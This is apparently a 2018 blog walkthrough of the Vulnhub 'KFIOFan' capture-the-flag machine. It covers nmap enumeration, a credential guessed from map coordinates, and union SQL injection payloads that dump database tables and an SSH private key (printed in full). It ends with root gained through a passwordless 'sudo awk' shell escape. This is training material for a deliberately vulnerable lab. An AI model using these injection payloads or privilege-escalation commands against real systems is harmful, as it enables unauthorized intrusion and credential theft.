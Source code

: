 ```yaml
---
layout:     post
title:      "Vulnhub.com - CTF KFIOFan"
date:       2018-12-05 0:00:00
author:     "W3ndige"
permalink: /:title/
category: Vulnhub
---
```


Two french people want to start the very first fanclub of the youtuber Khaos Farbauti Ibn Oblivion. But they're not very security aware! (IMPORTANT NOTE: The whole challenge is in french including server conf. Which may add to the difficulty if you are non-native or using a non-azerty keyboard)


* Author: [@khaos_farbauti](https://twitter.com/khaos_farbauti)
* Download: [https://www.vulnhub.com/entry/ctf-kfiofan-1,260/](https://www.vulnhub.com/entry/ctf-kfiofan-1,260/)

### Solution

From the start we can see what ports are open using `nmap`. 

{% highlight text %}
root@kali:~# nmap -sV -sC -sS -A 10.0.0.6
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-04 13:29 EST
Nmap scan report for 10.0.0.6
Host is up (0.00059s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u3 (protocol 2.0)
| ssh-hostkey: 
|   2048 11:6a:2e:47:4e:d4:9d:0d:b2:ca:0f:12:1b:89:04:1c (RSA)
|   256 d2:00:b9:ea:48:fe:70:f2:6a:32:f7:be:ed:03:56:92 (ECDSA)
|_  256 96:43:4c:10:7a:8e:b1:9d:bb:49:0f:e6:d4:67:a5:41 (ED25519)
80/tcp open  http    Apache httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=48.416667 -0.566667
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html; charset=iso-8859-1).
MAC Address: 08:00:27:D2:34:B7 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.59 ms 10.0.0.6

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.09 seconds
{% endhighlight %}

As the `http` port is open, we can start by viewing content of the website with `curl`. 

{% highlight text %}
root@kali:~# curl 10.0.0.6
Laisse moi deviner Bob, tu as encore perdu ton mot de passe ? LOL
{% endhighlight %}

It directly translates from French into this. 

{% highlight text %}
Translate from French: 
Let me guess Bob, did you lose your password again? LOL
{% endhighlight %}

But by actually going to the website with a web browser, we can see that the page is protected by `http authentication`. In the message box, we can see a message containing two numbers. 

{% highlight text %}
48.416667 -0.566667
{% endhighlight %}

After a moment, I've noticed that they look just like coordinates, and after putting them into the Google Maps, we get an address. 

{% highlight text %}
16 Rue du Château, 53300 Chantrigné, Francja
{% endhighlight %}

And after a little bit of time, the coombination of Bob:Chantrigné worked!

![Authenticated](/img/kfiofan/authenticated.png){:class="img-responsive center-block"}

I've decided to translate both of these posts but there weren't much clues essential for this moment. 

{% highlight text %}
"Hello everyone, here Khaos!" LOL No, it's Alice!

But Khaos is my idol, he is too great. I love her poems and unboxing videos with her daughter who is too cute <3
Bob says he's also doing let's play and something else with computers, but we do not care!


Alice: Fan NUMERO ONE of Khaos! I fell one day on an article about him in Madmoizelle and since then I am everything he does very closely! My favorite things are his poems and his music. My sister said it's bad, it's not music but noise. Fortunately I applied the advice of the great Khaos himself and since then I have more trouble with my sister. : D: D: D: D

Bob: Fan number 2 of Khaos. (Well that's what he says!) Well, he only discovered Khaos since he made videos and he only looks at the empty computer stuff (games and hacker stuff there) but that he knows enough to be allowed in the fan club. He annoys me to call him all the time "Cafio" but as he is cute I forgive him!
{% endhighlight %}


During usual enumaration of website, I've found first flag in `robots.txt` file. 

{% highlight text %}
FLAG 1 : Bravo tu as trouvÃ© le premier flag ! (Oui je sais tu espÃ©rais un indice mais au moins tu as les bons reflexes !)

FLAG 1: Congratulations you found the first flag! (Yes I know you're hoping for a clue but at least you have the right reflexes!)
{% endhighlight %}

In addition, I've found a search functionality in the website at ```http://10.0.0.6/khaosearch.php```. I decided to play with the input and found union sql injection. 

{% highlight sql %}
err" union select 1,2;#
{% endhighlight %}

But we need to get names of tables, and possibly columns from the database in order to find anything further. 

{% highlight sql %}
err" union select TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS;#
{% endhighlight %}

![SQL Injection](/img/kfiofan/sql-injection.png){:class="img-responsive center-block"}

As the results are parsed as links, by viewing the source code we can see what columns are exactly in each table. I decided to check `ssh_keys`, as it seems the most interesting. 

{% highlight html %}
<p><a href="user">ssh_keys</a></p>
<p><a href="privkey">ssh_keys</a></p>
{% endhighlight %}

Now we cen try to get the keys from that table. 

{% highlight sql %}
err" union select user, privkey FROM ssh_keys;#
{% endhighlight %}

And in the source, we have private key for user `alice`. 

{% highlight html %}
<p><a href="-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAnSCDYZ4E9BO/el3EybkhO2jG/lNW/uY0je648VSrJJGQ87tf
sb9eBUIriGhx+PNJuwvPSsct6N32HE/TzmJ98lcf6mMPlrjmYnNOFxgnuLaI2zbM
QV7msOgzLHONpgaU0gxgcIdiwbS8NuUeRwdxnN3H/QZycYzKbf0pJiM8qXL4/R4p
O7MMRn8OzBm361fwMc0DShvrb8kPoIvsC/qU6psAaEHk91Mot2qdSuC6hRIWca9r
TVUQK/hjQmxZ4yZb44LCv6ld8On3VWQgh7yluwZnzaVzKwG20X9P4cH/bYnFPsSV
7sulULft09QWHJJqCb4kHJR9DBVqCx1S3+9zCwIDAQABAoIBAHixFLnSyzNASAAS
LqpUTbZ4kQGhul0pLo0nJWAaDSuVtKXC84pw2CNp5E5vC7ySA7xtIdjqjdUlSXoN
xz/sX5naWmWLmdnIRQ6ySvVqVHiJnS3lNZew8bpJYaVvTQqOW5nMb/d/xtfLoBb6
fvtIOHip0ogEf7vAzW0W3Jiy0FHHDkboylsVE077xsV4gVcIkURv31UsXXlFZ8u+
2a+QQfJQDJX8a7pH0/hawehRGW0CJeW5D8+ROnZhWYY3BJF5Ls/KMPTMOY35O4a2
SpPzNm8UuTcvjTni+NnfYlzQFpjnlBlHmK32vL6hIb9ZI8J2TD4af9z53x/lrvpU
5wqTiUECgYEAzjr+qYf8zNct32YSPRaXwqvyB5QNSuIwMuqoaFclZfSNvW/f7cYx
CwliDW2D+IFMYUlsqxpqXgaRPjL+6ile1MmoKTd2XpTs8hemAe7RfXDLqGrlNx8R
QgbuTGljVkemvdXSAugf/bHKkKxzAQTkPqHm1SfooRnEd4X3imwVIakCgYEAwwvi
/wqigRO+WZnnd9KlU0WcT8xfnT/bX77oL4+Y/BgIWDJUvBsgNnR+ScBr0nsUEcDU
H/wSAYqqK8uqppWvMpjCscjRlu8v2MEUYct6mEJcjdBEP/xQ3KGY3T9HT73EXnKX
T8S/AZr94SDQhMU0aS5nDZSMTwff0Ap3sSTFh5MCgYB3ehYvgWkkA0XANxI58eza
C2OcoFlTGNdzqB8I0/QGrTewmC/TQQ8Ipdb4kIn0XnQxqKgcOKGG96cNsd2dK3qV
LH8P4eHhycW8O5chZ4pWchKK7+L7nDQTXJCSFDxIsBoZwNZ6eKCQCYChcEbwQDU7
U/C3bPeI3bTEyggvWY6kgQKBgQC3JRg252OD1Ggudmd0ieUXdgu6mmtFmsqA8x/O
WQYL4P0k483Q+5+ZwnU7B2W3ND66FNiaV/UIYY48pXdOCMuDtRFMIwc6tMm2vEZJ
NemdwuJpfyA2/NNo+IwzY9GwPL6A+RS/oDzCYyj1Ffz2Tr5R7XJyvAOryfcMwGd3
fNHF5QKBgEaR7tZN5+7barFT1nHTIGorwrLZfJod8l94DyC8v+K6zWxuUuQfq6xf
5hcUChoxK+RCH+YjRLRjVPkYsMH+/aROd5Tn9OGqlQlPq9ZLxBdPvnj5X1qgPyNa
BQYIHlH/RD1CYAfT8RDhXveC1qtjHJnq85fPrTCE6w8jk+ai/A/q
-----END RSA PRIVATE KEY-----
">alice</a></p>
{% endhighlight %}

With these credentials, we can `ssh` into the machine. 

{% highlight text %}
root@kali:~/vulnhub# ssh alice@10.0.0.6 -i key.txt 
Linux kfiofan 4.9.0-7-amd64 #1 SMP Debian 4.9.110-1 (2018-07-05) x86_64



          .__....._             _.....__,
            .": o :':         ;': o :".
            `. `-' .'.       .'. `-' .'
              `---'             `---'

    _...----...      ...   ...      ...----..._
 .-'__..-""'----    `.  `"`  .'    ----'""-..__`-.
'.-'   _.--"""'       `-._.-'       '"""--._   `-.`
'  .-"'                  :                  `"-.  `
  '   `.              _.'"'._              .'   `
        `.       ,.-'"       "'-.,       .'
          `.                           .'
            `-._                   _.-'
                `"'--...___...--'"`

TIC TAC TIC TAC TIC TAC TIC TAC TIC TAC TIC TAC TIC

Last login: Thu Aug  2 23:53:20 2018 from 192.168.1.28
alice@kfiofan:~$ cat flag3.txt 
FLAG 3 : Bravo pour être arrivé jusqu'ici. Cela montre que tu maitrises très bien les notions essentielles ! Un dernier petit effort et le root est à toi !
{% endhighlight %}

And here we have third flag for our collection. 

{% highlight text %}
FLAG 3: Congratulations for coming here. This shows that you master very well the essential concepts! One last little effort and the root is yours!
{% endhighlight %}

After enumaration I've found that `alice` can run `sudo awk` without password. We can easily spawn `bash` shell with that. 

{% highlight text %}
alice@kfiofan:~$ sudo -l
Entrées par défaut pour alice sur kfiofan :
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

L'utilisateur alice peut utiliser les commandes suivantes sur kfiofan :
    (root) NOPASSWD: /usr/bin/awk
{% endhighlight %}

One last step for `root`. 

{% highlight text %}
alice@kfiofan:~$ sudo awk 'BEGIN {system("/bin/bash")}'
root@kfiofan:/home/alice# cd /root
root@kfiofan:~# ls -la
total 52
drwx------  2 root root 4096 août   2 00:55 .
drwxr-xr-x 22 root root 4096 juil. 25 22:13 ..
-rw-r--r--  1 root root  570 janv. 31  2010 .bashrc
-rw-------  1 root root  200 août   1 16:59 flag4.txt
-rwx------  1 root root  423 juil. 27 15:05 genere_ssh_key.sh
-rwx------  1 root root  412 juil. 28 15:07 genere_web_pass.sh
-rw-------  1 root root 2700 août   2 00:47 .mysql_history
-rw-r--r--  1 root root  148 août  17  2015 .profile
-rw-r--r--  1 root root   74 juil. 26 15:19 .selected_editor
-rwx------  1 root root  291 juil. 28 15:49 timer_reboot.sh
-rw-------  1 root root 8099 juil. 26 14:17 ville.txt
-rw-r--r--  1 root root  218 juil. 26 16:30 .wget-hsts
root@kfiofan:~# cat flag4.txt 
FLAG 4 : TERMINE ! Un grand bravo à toi pour être arrivé jusqu'ici : la machine est à toi, sa survie ou sa destruction repose désormais entièrement sur ton éthique. Bonne continuation Hacker !
{% endhighlight %}

And translation. 

{% highlight text %}
FLAG 4: COMPLETE! Congratulations to you for coming here: the machine is yours, its survival or destruction is now entirely based on your ethics. Good luck Hacker!
{% endhighlight %}

Unfortunetly, at this moment I could not find second flag that was missing from the others, but I'll add an update once I have time to come back to this machine. 